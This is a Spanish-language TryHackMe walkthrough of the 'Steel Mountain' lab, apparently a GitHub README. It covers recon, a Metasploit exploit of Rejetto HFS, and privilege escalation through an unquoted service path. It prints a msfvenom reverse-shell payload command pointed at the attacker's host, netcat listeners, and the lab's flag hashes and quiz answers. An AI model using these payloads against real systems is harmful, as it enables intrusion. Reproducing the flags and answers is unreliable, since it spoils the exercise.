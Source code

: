 # Máquina Steel Mountain

Dificultad --> Medio-Dificil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Steel Mountain**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Escaneando puertos y sus versiones utilizando el comando de nmap con diferentes parámetros


![image](https://github.com/user-attachments/assets/1ad02628-b792-4046-8c68-64e0cdf76c14)


![image](https://github.com/user-attachments/assets/32314d7a-703c-480a-b5a8-a60894c497b1)


Buscamos sus versiones


![image](https://github.com/user-attachments/assets/8d94a0b4-aba3-4d7d-b5b3-1d8631e90ebb)


Convertimos el archivo que se nos genero para poder visualizarlo mejor con el siguiente comando **--> xsltproc pc.xml -o pc.html <--** y luego lo abrimos con el navegador


![image](https://github.com/user-attachments/assets/20517a9e-b2c8-41ce-815a-f715c1af3237)


![image](https://github.com/user-attachments/assets/53650fa0-093c-4d9c-92fa-c1e813c0c5a6)



### Resumen de la Información Obtenida

|IP             | Sistema OPerativo            | Puertos/Servicios                            | 
|:------------: |:----------------------------:| :-------------------------------------------:| 
| 10.10.89.218  |Windows Server 2012 x64-based | 80  http Microsoft-IIS/8.5                   |
|               |                              | 135 msrpc                                    |
|               |                              | 139 netbios-ssn                              |
|               |                              | 445 microsoft-ds/Windows Server 2008 R2-2012 |
|               |                              | 3389 ms-wbt-server                           |
|               |                              | 5985 http                                    |
|               |                              | 8080 http/file server 2.3                    |


## 2. Análisis de Vulnerabilidades / Debilidades

Realizamos un Fuzzing


![image](https://github.com/user-attachments/assets/cd6951ad-7dd5-4523-a4e0-4566dbd5a736)


En el reconocimiento encontramos que tenemos el puerto 8080 abierto así que procedemos abrir la ip con ese puerto


![image](https://github.com/user-attachments/assets/1fd1e9b8-5552-48fc-9121-0c68c9cf6ceb)


Como podemos observar en la sección de server information nos sale que es un Http File Server 2.3 en forma de un link si lo abrimos nos dirige a una pagina llamada **rejetto**


![image](https://github.com/user-attachments/assets/9145d40b-8509-4c4c-85bb-d20471c743a4)


Buscamos vulnerabilidad a rejetto


![image](https://github.com/user-attachments/assets/958df400-b4d3-4a2c-b4c2-3ee47721b7f9)



## 3. Explotación


Abrimos Metasploit con el comando -->**msfconsole**<-- y buscamos la vulnerabilidad


![image](https://github.com/user-attachments/assets/8e7da341-5721-44f1-8e8b-bb31567b1284)


Modificamos los parámetros


![image](https://github.com/user-attachments/assets/14159ff1-52cc-4193-81ce-d84837931283)


![image](https://github.com/user-attachments/assets/a560af1a-a4d9-4ac1-90cc-03146888ce82)


Corremos el exploit y una ves obtenida una sesión de meterpreter ejecutamos el comando --> **shell**



![image](https://github.com/user-attachments/assets/a23d7d9f-f087-46fb-8cba-79acb7f00d90)


Encontramos el contenido deel archivo user.txt 🚩


![image](https://github.com/user-attachments/assets/b7401654-7e69-463b-b4aa-06a9389b7b2d)


## 4. Escalación de privilegios

Ejecutamos el siguiente comando con msfvenom para realizar una Shell reverse

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.86.141 LPORT=4443 -f exe -o Advanced.exe


![image](https://github.com/user-attachments/assets/251064ae-618a-44b9-a822-64cfa6da47df)


Montamos nuestra maquina como servidor


![image](https://github.com/user-attachments/assets/0e45fa38-77f2-4ecd-82e9-53a28bde7a8e)


Descargamos nuestro archivo y detenemos el servicio AdvancedSystemCareService9


![image](https://github.com/user-attachments/assets/c64351fb-5cb0-4404-8eb7-5ac77f839798)


Activamos nuestro netcat


![image](https://github.com/user-attachments/assets/8fba1783-c185-4749-a550-b4a7bc0f7de2)


Activamos el servicio AdvancedSystemCareService9


![image](https://github.com/user-attachments/assets/7a538864-39ea-4437-bdd8-da3997fdbcdb)


Una vez activado el servicio de AdvancedSystemCareService9 vemos que en nuestra maquina donde nos pusimos modo escucha se nos conecta, ahora procedemos a buscar el archivo root.txt


![image](https://github.com/user-attachments/assets/dc1f8056-4622-4951-b3dc-639efe049886)


![image](https://github.com/user-attachments/assets/494786e3-582d-4c64-b6f4-3be8a04c83b1)



## 4.Banderas 🏁

|user.txt | b04763b6fcf51fcd7c13abc7db4fd365 |
|:-------:|:--------------------------------:|
|root.txt | 9af5f314f57607c00fd09803a587db80 |



## 5.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

•¿Quién es la empleada del mes?
Bill Harper

•Escanee la máquina con nmap. ¿En qué otro puerto se ejecuta un servidor web?
8080

•Eche un vistazo al otro servidor web. ¿Qué servidor de archivos se está ejecutando?
Rejetto http file server

•¿Cuál es el número CVE para explotar este servidor de archivos?
2014-6287

•Utilice Metasploit para obtener un shell inicial. ¿Qué es la bandera de usuario?
b04763b6fcf51fcd7c13abc7db4fd365

•Preste mucha atención a la opción CanRestart que está configurada como verdadera. ¿Cuál es el nombre del servicio que aparece como una vulnerabilidad de ruta de servicio sin comillas?
AdvancedSystemCareService9

•¿Qué es la bandera root?
9af5f314f57607c00fd09803a587db80

•El formato es el comando "powershell -c" aquí
powershell -c Get-Service


### Entrando a la máquina destino utilizando msfvenom con shikata ga nai

Creamos el archivo Advanced2.exe con los siguientes parámetro: 
 
--> -a para indicar la arquitectura del sistema operativo 
 
--> -p para indicar el payload
 
--> lhost que seria la ip de nuestra máquina
 
--> lport que sería el puerto por donde vamos a escuchar
 
--> -e para indicar el encoder a utilizar
 
--> -i para indicar el numero de interacciones que va tener
 
--> -f para indicar que será un ejecutable
 
--> – o para indicar el parámetro de salida


![image](https://github.com/user-attachments/assets/5cf72075-9e1d-488d-8728-4440291af6ea)


Descargamos el archivo en la máquina destino


![image](https://github.com/user-attachments/assets/742e0b90-94e0-44df-b237-c55abe8dd0af)


Activamos el netcat en el puerto 4443


![image](https://github.com/user-attachments/assets/83783d14-30a0-4aac-b257-5ea5dda7e416)


Ejecutamos

![image](https://github.com/user-attachments/assets/222224d3-975d-40a3-a1dc-02a691b20465)


Logramos entrar


![image](https://github.com/user-attachments/assets/6327b2e2-d5d0-4b20-a8eb-a018dc5b7c19)



### Aplicación de la Herramienta PowerUp.ps1

Descargamos desde nuestra máquina como servidor nuestro archivo PowerUp en la máquina destino


![image](https://github.com/user-attachments/assets/4fe2649c-723f-4327-badf-74088685acbc)


Regresamos a meterprete y ejecutamos load powershell


![image](https://github.com/user-attachments/assets/5c901326-68a3-4b17-b0c7-b513d1b9e87f)


Ejecutamos los siguientes comando e invocamos la herramienta



![image](https://github.com/user-attachments/assets/d0e78e49-e60e-4ccd-88ab-378ab6d820b2)



Mediante PowerUp se comprueban servicios vulnerables, aplicaciones susceptibles a DLL Hijacking, configuración del registro y otras comprobaciones.


![image](https://github.com/user-attachments/assets/2e4a24ae-8055-4983-a13d-2ab4de04cd0f)


![image](https://github.com/user-attachments/assets/7d0dacf0-449b-423c-8c43-3cffd76999a7)



